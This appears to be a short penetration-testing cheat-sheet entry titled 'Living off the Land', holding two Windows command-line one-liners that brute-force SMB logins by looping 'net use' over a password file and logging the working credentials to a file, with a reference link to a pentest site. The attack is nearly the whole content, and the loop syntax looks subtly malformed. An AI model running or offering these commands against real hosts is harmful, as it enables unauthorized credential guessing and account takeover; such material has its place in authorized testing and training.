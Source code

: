 # Living off the Land

```
C:\> for /f in %i in passwords.txt do @echo %i & @net use \\<IP> %i /u:<username> 2>null && pause

C:\> for /f in %i in passwords.txt do @echo %i & @net use \\<IP> %i /u:<username> 2>null && echo <username>: %i >> output.txt
```

---
## References

- [Pwnage Base: Brute Force](https://pwn.no0.be/exploitation/password/smb/)